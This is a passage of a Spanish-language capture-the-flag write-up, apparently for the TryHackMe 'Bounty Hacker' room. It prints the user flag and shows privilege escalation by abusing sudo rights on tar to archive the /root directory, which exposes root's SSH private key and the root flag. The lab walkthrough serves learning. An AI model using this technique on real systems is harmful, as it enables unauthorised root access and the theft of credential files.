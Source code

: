 Como se puede observar, se obtiene satisfactoriamente la contraseña del usuario lin, que se usa para acceder y por tanto, obtener la primera de las *flag*, que se encuentra en el directorio del propio usuario lin.

~~~
cat user.txt
THM{CR1M3_SyNd1C4T3}
~~~

## Escalada de privilegios.

Se realizan varias enumeraciones de vectores conocidos para escalar privilegios, pero es mediante el comando ```sudo -l``` con el que se pueden ver los comandos que se pueden ejecutar con permisos de root por el usuario, obteniendo que el comando tar puede ser usado con dichos privilegios.

~~~shell
sudo -l
Matching Defaults entries for lin on bountyhacker:
	env_reset, mailbadpass,
	secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:snap/bin

User lin may run the following commands on bountyhacker:
	(root) /bin/tar
~~~

Por tanto, y como sólo interesa obtener el fichero que contiene la flag, se comprime el directorio root en un fichero en el home del propio usuario.

> En [GTFObins](https://gtfobins.github.io/gtfobins/tar/#sudo) mencionan un comando para obtener los tan ansiados permisos de root, pero en este caso, no era necesario, y por hacerlo de otra forma diferente.

~~~
sudo tar -cvf root_folder.tar /root
tar: Removing leading `/' from member names
/root/
/root/.profile
/root/.nano/
/root/.nano/search_history
/root/.bash_history
/root/.ssh/
/root/.ssh/id_rsa.pub
/root/.ssh/id_rsa
/root/.bashrc
/root/*
/root/root.txt
/root/.selected_editor
/root/.cache/
~~~

Ahora se descomprime, obteniendo la flag de root.

~~~
tar -xvf root_folder.tar
root/
root/.profile
root/.nano/
root/.nano/search_history
root/.bash_history
root/.ssh/
root/.ssh/id_rsa.pub
root/.ssh/id_rsa
root/.bashrc
root/*
root/root.txt
root/.selected_editor
root/.cache/
~~~
